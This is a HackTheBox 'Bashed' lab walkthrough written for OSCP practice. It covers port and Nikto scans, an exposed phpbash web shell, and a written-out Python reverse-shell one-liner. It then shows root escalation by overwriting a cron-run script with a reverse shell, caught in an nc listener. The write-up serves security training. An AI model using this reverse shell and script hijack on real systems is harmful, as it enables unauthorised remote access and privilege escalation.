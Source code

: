 ```yaml
---
layout: post
title: HackTheBox Bashed Writeup - OSCP Practice List 
categories: [security, hackthebox, oscp-writeups, thursday-snack]
tags: [security, hackthebox, oscp]
description: A comprehensive writeup on HackTheBox Bashed VM which helps learn and practice for OSCP.
---
```



### Quick Overview

[Bashed](https://app.hackthebox.com/machines/118) Box is one of the Linux Box from [TJNull OSCP Practice list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). It's one of those quite easy machine where you get initial foothold in one hop and privilege escalation in second hop.

![Bashed VM - HacktheBox Logo](/assets/media/htb-bashed-logo.jpg)

### Enumeration

#### NMapAutomator

Started with enumerating the target with [`NMapAutomator`](https://github.com/21y4d/nmapAutomator) script since it helps in automating all possible ports with vulnerability scripts from `nmap`. Additionally, `NmapAutomator` can help in recon process using `ffuf`, `nikto`, `DNSRecon`, `SMB` enumeration.

> `sudo nmapAutomator.sh -H $IP --type All`

```bash
NMap Scan Results
Running all scans on 10.129.210.13
Host is likely running Linux        
---------------------Starting Port Scan-----------------------                                                                
PORT   STATE SERVICE
80/tcp open  http
----------------------Starting UDP Scan------------------------                                                                                  
No UDP ports are open
```

#### Nikto Scan 

```
Nikto Scan
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.210.13
+ Target Hostname:    10.129.210.13
+ Target Port:        80
+ Start Time:         2023-02-12 20:19:51 (GMT-5)
---------------------------------------------------------------------------

+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7916 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2023-02-12 20:23:23 (GMT-5) (212 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

#### Suspect 1

NMap Scan reports returned very few information, but Nikto scanner has pretty good results with different sub-directories. After going through `/dev/` directory, You might come across `phpbash` php script. Taking a pause, [phpbash](https://github.com/Arrexel/phpbash) is one of the open-source software that implements interactive php shell. Now, It's time to pivot from `Enumeration` to aquire `Local Shell`.

![HacktheBox - Bashed VM - Enumeration](/assets/media/htb-bashed-enumeration-2.png)

![Hackthebox - Bashed VM - Local Shell](/assets/media/htb-bashed-local-shell.png)

### Local Shell

You may use [`revshell`](https://www.revshells.com/) for generating your reverse shell payload. Unlucky me, except python none of the reverse shell language payload was working.

```python
export RHOST="10.129.210.13";export RPORT=8085;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![Hackthebox - Bashed VM - Local Shell](/assets/media/htb-bashed-local-shell-2.png)

### Privilege Escalation

Now that we've landed as local user `www-data` in the Bashed machine, now let's try lateral movement via privilege escalation. The first few things I used to execute on shell after landing are `whoami` and `sudo -l` verify basic information.

Upon executing `sudo -l`, looks like user `scriptmanager` can execute ALL commands without a password. It's pretty easy to switch user to scriptmanager,

`> sudo -u scriptmanager /bin/bash` 

#### LinEnum.sh

Now it's time for running LinEnum.sh script to identify weakness in the system that can be leveraged to escalate privileges. Upon executing, we come to know that `/scriptmanager` has couple of files named `test.py` and `test.txt`. The former is owned by `scriptmanager` and later by `root`.

```shell
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Feb 20 16:27 test.txt
scriptmanager@bashed:/scripts$ 
scriptmanager@bashed:/scripts$ cat test.py
cat test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

As you can see `test.py` is writing back to `test.txt` which is owned by `root`. Unless `test.py` is executed by `root` user, `test.txt` doesn't have the similar privilege based on my assumption. Now that `test.py` is owned by `scriptmanager`, you can potentially overwrite the content and make `root` to execute on its own context and try escalating privilege.

#### Plan for privilege escalation

1. Overwrite `test.py` with reverse shell payload.
2. Allow `root` to execute `test.py` - It does automatically, No Actions required.
3. Listen for reverse shell and capture root shell

![Privilege Escalation - Bashed VM - HackTheBox](/assets/media/htb-bashed-privilege-escalation-steps.png)

```shell
┌──(kali㉿kali)-[~/htb/bashed-1]
└─$ nc -lnvp 4242              
listening on [any] 4242 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.215.77] 33960
# dir
test.py  test.txt
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt
cat root.txt
{SOME_MAGIC_TEXT}
```

### Capture The Flag

So, there are couple of flags to be submitted as outcome from this HackTheBox VM `bashed`.

1. `/home/arrexel/user.txt`
2. `/root/root.txt`

Now, We've officially pwned the system and escalated our privileges as `root` 🎉.

![HackTheBox - Shivasurya.me](/assets/media/htb-sherlock.webp)

### Closing Note:

I hope this post is helpful for folks preparing for Offensive Security Certified Professional certification exam. For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
